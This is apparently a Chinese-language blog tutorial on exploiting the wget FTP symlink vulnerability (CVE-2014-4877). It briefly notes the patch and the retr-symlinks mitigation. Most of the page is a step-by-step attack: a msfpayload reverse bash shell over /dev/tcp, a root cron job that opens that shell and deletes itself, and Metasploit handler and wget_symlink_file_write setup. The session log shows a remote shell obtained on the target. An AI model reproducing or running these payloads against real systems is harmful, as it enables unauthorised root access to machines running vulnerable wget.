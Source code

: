 ```yaml
---
layout: default
title: Wget FTP Attack Vulnerability
categories: [Security]
tags: [Wget, Sec]
---
```

<h2>{{ page.title }}</h2>

Wget-FTP-Attack-Vulnerability

Intro
===

>The flaw is triggered when wget receives a directory listing that includes a symlink followed by a directory with the same name.

#修复

    Upgrade to wget version 1.16 or a package that has backported the CVE-2014-4877 patch. If you use a distribution that does not ship a patched version of wget, you can mitigate the issue by adding the line “retr-symlinks=on” to either /etc/wgetrc or ~/.wgetrc.

#利用教程

##建立一个计划任务文件脚本

![msfpayload](https://38.media.tumblr.com/d3d2e79645b196345511d219e17ca39e/tumblr_nefu19ne0O1r68ev5o1_1280.png)

`msfpayload cmd/unix/reverse_bash LHOST=172.16.68.132 LPORT=4444 R`

    0<&66-;exec 66<>/dev/tcp/172.16.68.132/4444;sh <&66 >&66 2>&66r

![cronshell](https://33.media.tumblr.com/35a25081402967b01ef397e705655ec0/tumblr_nefu19ne0O1r68ev5o2_1280.png)

`cat cronshell`

    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    * * * * * root bash -c '0<&63-;exec 63<>/dev/tcp/172.16.68.132/4444;sh <&63 >&63 2>&63'; rm -f /etc/cron.d/cronshell

##配置本地监听

![locallisten](https://38.media.tumblr.com/ef91100a1142ab45e42af23e29a54187/tumblr_nefu19ne0O1r68ev5o3_1280.png)


    msf > use exploit/multi/handler                                                
    msf exploit(handler) > set PAYLOAD cmd/unix/reverse_bash                    
    PAYLOAD => cmd/unix/reverse_bash                                               
    msf exploit(handler) > set LHOST 172.16.68.132                                 
    LHOST => 172.16.68.132                                                         
    msf exploit(handler) > set LPORT 4444                                          
    LPORT => 4444                                                                  
    msf exploit(handler) > run -j                                                  
    [*] Exploit running as background job.                                         

    [*] Started reverse handler on 172.16.68.132:4444                              

    [*] Starting the payload handler...                                            
    msf exploit(handler) >  

##搭建一个匿名攻击ftp

![ftp](https://38.media.tumblr.com/a79c60eb6b5916b25fcf159f2f77dbc2/tumblr_nefucn1iM11r68ev5o1_1280.png)

    msf exploit(handler) > use auxiliary/server/wget_symlink_file_write                                                               
    msf auxiliary(wget_symlink_file_write) > set TARGET_FILE /etc/cron.d/cronshell
    TARGET_FILE => /etc/cron.d/cronshell                                        
    msf auxiliary(wget_symlink_file_write) > set TARGET_DATA file:cronshell     
    TARGET_DATA => file:cronshell                                               
    msf auxiliary(wget_symlink_file_write) > set SRVPORT 21                     
    SRVPORT => 21                                                               
    msf auxiliary(wget_symlink_file_write) > run                                
    [*] Auxiliary module execution completed                                    

    [+] Targets should run: $ wget -m ftp://172.16.68.132:21/                   
    [*] Server started.

##目标利用

![target](https://31.media.tumblr.com/fe5dc749c0087036d9df14c7c6ddb56d/tumblr_nefu19ne0O1r68ev5o5_1280.png)
![target](https://33.media.tumblr.com/7e331d6526543ca4d6b4365930b6d0c6/tumblr_nefu19ne0O1r68ev5o6_1280.png)


    [*] Server started.                                                         
    msf auxiliary(wget_symlink_file_write) > [*] 172.16.17.119:56396 Logged in with user 'anonymous' and password 'anonymous'...
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> CWD /4BDZLdr5AdsK                                
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> RETR cronshell                                   
    [+] 172.16.17.119:56396 Hopefully wrote 183 bytes to /etc/cron.d/cronshell  
    [*] Command shell session 1 opened (172.16.68.132:4444 -> 172.16.17.119:54412) at 2014-10-31 04:13:01 -0400
    sessions                                                                    

    Active sessions                                                             
    ===============                                                             

    Id  Type        Information  Connection                                     
    --  ----        -----------  ----------                                     
    1   shell unix               172.16.68.132:4444 -> 172.16.17.119:54412 (172.16.17.119)

    msf auxiliary(wget_symlink_file_write) > sessions -i 1                      
    [*] Starting interaction with 1...                                          

    ip a                                                                        
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                   
        inet 127.0.0.1/8 scope host lo                                          
        valid_lft forever preferred_lft forever                                 
        inet6 ::1/128 scope host                                                
        valid_lft forever preferred_lft forever                                 
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:21:5b:1c brd ff:ff:ff:ff:ff:ff                      
        inet 172.16.17.119/24 brd 172.16.17.255 scope global eth0               
        valid_lft forever preferred_lft forever         

#利用条件

>目标机开启crontab 和利用wget递归下载


#引用

[url1](http://bobao.360.cn/learning/detail/72.html)

[url2](https://community.rapid7.com/community/metasploit/blog/2014/10/28/r7-2014-15-gnu-wget-ftp-symlink-arbitrary-filesystem-access)

[url3](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/wget_symlink_file_write.rb)
